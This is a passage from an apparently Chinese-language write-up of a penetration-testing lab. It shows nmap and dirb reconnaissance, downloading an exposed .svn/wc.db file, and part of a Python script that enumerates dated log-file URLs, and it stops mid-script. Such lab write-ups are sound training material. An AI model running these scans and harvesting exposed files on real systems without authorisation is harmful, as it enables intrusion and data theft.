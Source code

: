 # 记一次域渗透靶场实战

0、实验环境

![image-20230311102800223](https://s2.loli.net/2023/03/11/Hriqn8blCZftVPs.png)

1、信息收集

```shell
nmap www.webhack123.com
```

![image-20230310121023012](https://s2.loli.net/2023/03/11/MgCXkZOTaJ58evY.png)

```
# 得到
IP：192.168.12.147
开放端口：80、135、139...等
```

2、使用`dirb`命令扫描目录

```
dirb http://www.webhack123.com
```

![image-20230310143547806](https://s2.loli.net/2023/03/11/EvOxrKpdRn8Bgme.png)

发现.svn代码管理的目录没有清理
尝试利用wc.db数据库文件（.svn/wc.db 文件），获取到一些数据库信息

wc.db文件用SQLiteStudio软件打开 wc.db文件，可以看到 NODES 表，遍历这个表里的每一行，就可以下载到整个项目里的代码了，而且还能得到对应的真实文件名。

火狐访问`http://www.webhack123.com/.svn/wc.db`下载`wc.db`

如果火狐下载失败可以使用命令

```shell
wget http://www.webhack123.com/.svn/wc.db
```



3、SQLite打开`wc.db`

发现这里有一堆日志文件

![image-20230310162805871](https://s2.loli.net/2023/03/11/8HOXTNWjYC9gR3D.png)

使用脚本获取日志文件

![image-20230310121920979](https://s2.loli.net/2023/03/11/8Yh9UMNK7nEgAsD.png)

getlog.py

```python
#coding：utf-8
import requests
url ="http://www.webhack123.com/App/Runtime/Logs"
def add_urls(patch,y):
	urls=[]
	for i in range(1,7):
		for j in range(1,32):
			if i<10:
				if j<10:
					urls.append(patch+"/%s_0%s_0%s.log" %(y,i,j))
				else:
					urls.append(patch+"/%s_0%s_%s.log" % (y,i,j))
			else:
				if j<10:
					urls.append(patch+"/%s_%s_0%s.log" % (y,i,j))
```